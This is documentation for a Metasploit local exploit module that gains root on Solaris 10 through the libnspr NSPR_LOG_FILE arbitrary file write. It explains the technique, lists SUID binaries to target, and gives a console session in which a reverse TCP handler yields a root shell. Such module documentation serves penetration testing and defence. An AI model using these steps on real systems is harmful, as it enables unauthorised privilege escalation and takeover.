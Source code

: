 ## Description

  This module exploits an arbitrary file write vulnerability in the
  Netscape Portable Runtime library (libnspr) on Solaris which allows
  users to gain root privileges.

  libnspr versions prior to 4.6.3 allow users to specify a log file with
  the `NSPR_LOG_FILE` environment variable. The log file is created with
  the privileges of the running process, resulting in privilege escalation
  when used in combination with a SUID executable.

  This module writes a shared object to the trusted library directory
  `/usr/lib/secure` and runs the specified SUID binary with the shared
  object loaded using the `LD_LIBRARY_PATH` environment variable.


## Vulnerable Application

  This module has been tested successfully with [libnspr](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR)
  version 4.5.1 on Solaris 10u1 (01/06) (x86) and Solaris 10u2 (06/06) (x86).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/libnspr_nspr_log_file_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_PATH**

  Path to suid executable (must be linked to a vulnerable version of `libnspr4.so`)
  (default: `/usr/bin/cancel`)

  Some useful example SUID executables:

  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

  ```
  msf5 > use exploit/solaris/local/libnspr_nspr_log_file_priv_esc 
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created file /usr/lib/secure/libldap.so.5
  [*] Writing '/tmp/.8ENHI80b/.z6luu3Y1JC.c' (166 bytes) ...
  [*] Writing '/tmp/.8ENHI80b/.1hC6r9F' (175 bytes) ...
  [*] Executing payload...
  [+] Deleted /usr/lib/secure/libldap.so.5
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC.c
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC
  [!] Tried to delete /usr/lib/secure/libldap.so.5, unknown result
  [+] Deleted /tmp/.8ENHI80b/.1hC6r9F
  [+] Deleted /tmp/.8ENHI80b

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  ```

